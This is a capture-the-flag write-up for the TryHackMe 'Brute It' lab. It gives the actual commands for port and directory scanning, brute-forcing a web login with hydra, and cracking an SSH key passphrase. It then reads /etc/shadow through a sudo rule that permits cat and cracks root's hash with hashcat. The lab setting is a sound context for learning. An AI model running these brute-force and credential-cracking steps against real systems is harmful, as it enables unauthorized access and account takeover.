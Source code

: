 ```yaml
---
title: "TryHackMe - Brute It"
author: Nasrallah
description: ""
date: 2022-12-09 00:00:00 +0000
categories : [TryHackMe]
tags: [tryhackme, linux, easy, hydra, bruteforce, hashcat, crack]
img_path: /assets/img/tryhackme/bruteit
---
```


<div align="center"> <script src="https://tryhackme.com/badge/367641"></script> </div>

---


# **Description**

Hello hackers, I hope you are doing well. We are doing [Brute It](https://tryhackme.com/room/bruteit) from [TryHackMe](https://tryhackme.com). This machine is running a webserver where we find a login page that we brute force and find a user's password, Once we're logged in we find an ssh private key that we use to gain foothold. After that we exploit a sudo entry to read the shadow file and crack the root's hash to get his password thus getting root shell.

# **Enumeration**

## nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.

```terminal
map scan report for 10.10.52.106
Host is up (0.15s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 4b:0e:bf:14:fa:54:b3:5c:44:15:ed:b2:5d:a0:ac:8f (RSA)
|   256 d0:3a:81:55:13:5e:87:0c:e8:52:1e:cf:44:e0:3a:54 (ECDSA)
|_  256 da:ce:79:e0:45:eb:17:25:ef:62:ac:98:f0:cf:bb:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

There are two open ports, 22 running OpenSSH and 80 running Apache http web server.

## Web

Let's navigate to the web page.

![](1.png)

We see the default Apache 2 page, nothing really useful.

### Gobuster

Let's run a directory scan.

```terminal
└──╼ $ gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://10.10.52.106/                                                  
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.52.106/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/11/06 07:43:02 Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/.hta                 (Status: 403) [Size: 277]
/admin                (Status: 301) [Size: 312] [--> http://10.10.52.106/admin/]
/index.html           (Status: 200) [Size: 10918]                               
/server-status        (Status: 403) [Size: 277]                                 
                                                                                
===============================================================

```

We found a page called **/admin**, let's see what's there.

![](2.png)

It's a login page, and if we check the source code we find an interesting comment.

![](3.png)

We found the username but no password so let's brute force the login page with `hydra` using the following command:

### Hydra

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.52.106 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid"
```

![](4.png)

We got the password, let's login.

![](5.png)

# **Foothold**

We found john ssh private key, let's copy it to our machine, give it the right permissions and connect with it.

![](6.png)

The private key is protected with a password so we use `ssh2john` to extract the hash and crack it using `john`.

Let's reconnect.

![](7.png)

# **Privilege Escalation**

Let's check our current privileges with `sudo -l`

```bash
john@bruteit:~$ sudo -l
Matching Defaults entries for john on bruteit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on bruteit:
    (root) NOPASSWD: /bin/cat
```

We can run cat as root, so let's read the shadow file.

![](8.png)

Let's copy root's hash to a file and crack it with `hashcat`. 

```bash
└──╼ $ cat roothash.txt
root:$6$zdk0.jUm$Vya24cGzM1duJkwM5b17Q205xDJ47LOAg/OpZvJ1gKbLF8PJBdKJA4a6M.JYPUTAaWu4infDjI88U9yUXEVgL.
```

We use the following command to crack the hash.

```bash
hashcat -m 1800 roothash.txt /usr/share/wordlists/rockyou.txt --user
```

![](9.png)

We got the root's password, let's swith to him with the command `su -`

```terminal
john@bruteit:~$ su -
Password: 
root@bruteit:~# id
uid=0(root) gid=0(root) groups=0(root)
root@bruteit:~#
```

---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).

---

# References
